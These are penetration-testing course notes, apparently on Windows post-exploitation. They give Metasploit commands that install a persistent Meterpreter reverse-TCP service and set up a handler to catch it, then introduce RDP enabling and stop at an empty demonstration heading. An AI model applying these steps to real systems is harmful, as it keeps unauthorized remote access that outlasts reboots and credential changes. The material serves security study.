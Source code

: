

## <mark style="color:red;">Establishing Persistence On Windows</mark>

**Establishing Persistence On Windows**

* Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
* Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.
* We can utilize various post exploitation persistence modules to ensure that we always have access to the target system.

### **Practical Demonstration**

```bash
# we use the rejetto to gain initiaal access.
meterpreter > sysinfo
meterpreter > getuid # Administrator user.
meterpreter > ctrl+z # background the session.


# Persistence require elevated privileges
msf6 > search platform:windows persistence
msf6 > use exploit/windows/local/persistence_service # Allow to establish a reliable persistence on the target system.
msf6 > set payload windows/meterpreter/reverse_tcp # it uses the 32bit (x86).
msf6 > set SESSION 1
exploit

sessions -K # kill all sessions.
# To get the session back, use multi/handler and set the same PAYLOAD, LHOST and, LPORT options as you did when configuring the persistence
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST $kaliIP
run
```



## <mark style="color:red;">Enabling RDP</mark>

* The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
* RDP uses TCP port 3389 by default.
* RDP is disabled by default, however, we can utilize an MSF exploit module to enable RDP on Windows target and consequently utilize RDP to remotely access to the target system.
* RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.

### **Practical Demonstration**
